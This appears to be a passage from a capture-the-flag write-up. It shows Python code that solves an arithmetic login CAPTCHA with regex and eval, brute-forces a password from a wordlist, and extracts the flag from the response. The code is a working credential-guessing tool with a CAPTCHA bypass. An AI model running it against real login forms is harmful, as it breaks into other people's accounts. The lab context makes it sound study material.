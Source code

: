 We use **Regex** to extract and solve the CAPTCHA automatically.

```python
def resolve_captcha(text):
    try:
        r = re.findall(r"(\d+)\s*([+\-*/])\s*(\d+)\s*=\s*\?", text)[0]
        num1, sign, num2 = int(r[0]), r[1], int(r[2])
        return eval(f"{num1}{sign}{num2}")
    except (IndexError, ValueError) as e:
        LOG.error(f"Failed to resolve captcha: {e}")
        return None
```

### Step 3: Password Brute-force

Once a **valid username** is found, we loop through `passwords.txt` to find the correct password.

```python
def find_password(username):
    global lastresponse_text
    LOG.info(f"Starting password brute-force for username: {username}", bold=True)
    
    for password in passwords:
        LOG.info(f"Trying password: {password}", remove_last_line=True)
        data = {"username": username, "password": password}

        response = make_request(data)
        if not response:
            continue

        if "Too many bad login attempts!" in response.text:
            data["captcha"] = resolve_captcha(lastresponse_text)
            response = make_request(data)

        if "Invalid password for user" not in response.text:
            LOG.info(f"Valid password found: {password}", bold=True, remove_last_line=True)
            return password

    LOG.warning("No valid password found.")
    return None
```

### Step 4: Extracting the Flag

Once logged in successfully, the flag is displayed in the HTML response.  
We use **Regex** to extract it:

```python
flag = re.findall(r"Flag.txt:</h2>\s*<h3>(\w+)</h3>", lastresponse_text)

if flag:
    LOG.info(f"Flag found: {flag[0]}", bold=True)
else:
    LOG.error("Flag not found.", bold=True)
```
